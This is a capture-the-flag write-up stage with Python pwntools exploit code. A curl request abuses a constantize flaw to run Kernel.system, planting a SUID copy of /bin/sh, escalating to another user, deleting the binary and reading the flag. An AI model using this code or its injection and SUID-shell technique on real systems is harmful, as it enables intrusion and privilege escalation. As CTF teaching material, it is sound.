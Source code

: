 #### Crafting an Exploit

As with the previous stage, all exploit code remains the same and is extended for this stage.

After the first dill RCE has been triggered and we get a `rabbit` shell, a CURL command with the
payload to copy `/bin/sh` to `/tmp/hackers_use_me/pwn` and set it SUID is constructed. This request
is then sent to create a way for us to escalate to the `mouse` user.

```python
    # Create a mouse SUID shell via the pool-of-tears constantize vulnerability.
    # Construct the URL
    log.info('Constructing pool-of-tears exploit URL.')
    binbash = quote('../../../../../../../bin/bash', safe='')
    cmd_args = [
        'cp /bin/sh /tmp/hackers_use_me/pwn',
        'chmod +x /tmp/hackers_use_me/pwn',
        'chmod +s /tmp/hackers_use_me/pwn'
    ]
    cmd = quote(';'.join(cmd_args), safe='')
    exploit_url = ('http://localhost:4000/api/v1/smoke?uniqid={}&ctype=Kernel&cop=system&'
                   'cargs[]=-c&cargs[]={}&content=potato').format(binbash, cmd)
    # Send the exploit to abuse Kernel.system to create a mouse SUID binary.
    log.info('Sending curl request to trigger the creation of the SUID binary.')
    c.sendline("curl '{}'".format(exploit_url))
    c.recvuntil('Type is not implemented yet.')
```

Next, the escalation is triggered. We are now successfully acting as the `mouse` user.

```python
    # Trigger the privilege escalation, /bin/sh -p.
    log.info('Triggering the SUID binary to escalate to the mouse user.')
    c.sendline('/tmp/hackers_use_me/pwn -p')
```

The binary is removed so that others who may stumble across it do not have access to it.

```python
    # Remove the binary.
    log.info('Removing the SUID binary to clean up the tracks.')
    c.sendline('rm /tmp/hackers_use_me/pwn')
```

Finally, the flag is retrieved by executing yet another SUID wrapper and an interactive shell is
dropped.

```python
    # Get the flag.
    log.info('Getting the flag by executing /home/mouse/flag3.bin')
    log.success('Flag 3:')
    c.sendline('/home/mouse/flag3.bin')
    c.sendline('echo END_OF_FLAG')
    log.success(c.recvuntil(b'END_OF_FLAG').replace(b'END_OF_FLAG', b''))

    # Drop into an interactive shell.
    log.success('Enjoy your shell!')
    c.interactive()
```

